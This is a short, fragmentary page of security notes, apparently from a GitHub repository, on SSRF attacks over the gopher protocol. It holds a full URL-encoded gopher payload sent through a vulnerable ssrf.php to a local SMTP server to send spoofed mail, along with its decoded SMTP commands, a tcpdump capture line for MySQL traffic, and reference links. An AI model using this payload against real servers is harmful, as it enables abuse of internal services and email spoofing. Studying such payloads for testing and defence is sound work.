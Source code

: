 docker exec -it  8dd9944ce897 bash

https://programming.vip/docs/ssrf-uses-gopher-to-attack-mysql-and-intranet.html
https://blog.csdn.net/weixin_35678674/article/details/114470729?utm_medium=distribute.pc_relevant.none-task-blog-2~default~baidujs_baidulandingword~default-1-114470729-blog-119734740.pc_relevant_paycolumn_v3&spm=1001.2101.3001.4242.2&utm_relevant_index=3

tcpdump -i any port 3306 -w mysql.pcap

**Gopher 发送的smtp数据**

```
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AHYou didn't say the magic word !
.
QUIT
```

http://canarytokens.com/feedback/tags/2yvkaz8k4erksjod12yql9c7c/submit.aspx



工具：

- [SSRF Sheriff - https://github.com/teknogeek/ssrf-sheriff](https://github.com/teknogeek/ssrf-sheriff)